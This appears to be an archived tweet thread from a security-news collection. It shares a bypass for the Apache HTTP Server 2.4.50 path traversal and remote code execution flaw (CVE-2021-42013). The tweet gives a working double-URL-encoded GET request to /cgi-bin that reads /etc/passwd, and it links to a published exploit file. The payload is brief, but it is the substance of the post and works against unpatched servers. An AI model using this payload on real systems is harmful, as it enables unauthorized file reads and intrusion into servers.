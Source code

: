 <table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>93</code></td>
<td>Favorites: <code>194</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1448519884808146944 _at 2021-10-14, 05:23:47_**
<blockquote>
[Apache] HTTP Server cgi-bin Path Traversal and RCE (CVE-2021-42013)

This exploit can bypass for Apache HTTP Server 2.4.50 (CVE-2021-41773 Patch Version)

GET /cgi-bin/%%32%65%%32%65/.../%%32%65%%32%65/etc/passwd HTTP/1.1

https://t.co/J3VlUh5pw4 https://t.co/0eLtCyuAa9
</blockquote>

* https://dl.packetstormsecurity.net/2110-exploits/apache2450-traversalexec.txt

<table><tr>
<td><img src="pictures/5176c83846031b50ac64ef4f1a8696877ff9d0f4f1c609607d24cb0eeda3ba89.jpg" alt="5176c83846031b50ac64ef4f1a8696877ff9d0f4f1c609607d24cb0eeda3ba89.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>108</code></td>
<td>Favorites: <code>251</code></td>
</tr></table>

---